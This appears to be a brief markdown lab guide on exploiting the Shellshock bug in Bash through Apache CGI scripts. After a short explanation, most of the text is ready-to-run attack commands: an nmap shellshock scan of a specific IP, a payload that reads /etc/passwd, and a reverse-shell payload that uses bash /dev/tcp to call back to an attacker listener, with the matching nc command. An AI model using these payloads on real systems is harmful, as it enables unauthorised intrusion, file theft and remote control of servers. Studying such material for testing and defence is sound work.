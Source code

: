 # Exploiting Apache Shellshock Vulnerability

Shell Shock is a vulnerability in Linux which allows users to execute commands on the target Web Server if they are using CGI scripts.
<br>
For instance, consider this malicious environment variable:

```sh
export myfunction='() { echo "This is a malicious payload"; }; echo vulnerable'
```

In this case, the attacker has defined a function within `myfunction` that echoes a harmful message. When Bash sets this variable, it not only sets the function but also executes `echo vulnerable`, indicating the system is vulnerable. This can be used for various malicious purposes, including remote code execution.

#### CHECKING IF VULNERABLE

```sh
nmap -sV 192.97.138.3 --script http-shellshock --script-args "http-shellshock.uri=/gettime.cgi"
```

#### EXPLOITING SHELLSHOCK:

```sh
() { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'
```

#### CONNECTING A REVERSE SHELL BY ABUSING SHELLSHOCK

```sh
() { :; }; echo; /bin/bash -c 'bash -i>&/dev/tcp/192.97.138.2/1234 0>&1'

nc -nvlp 1234
```

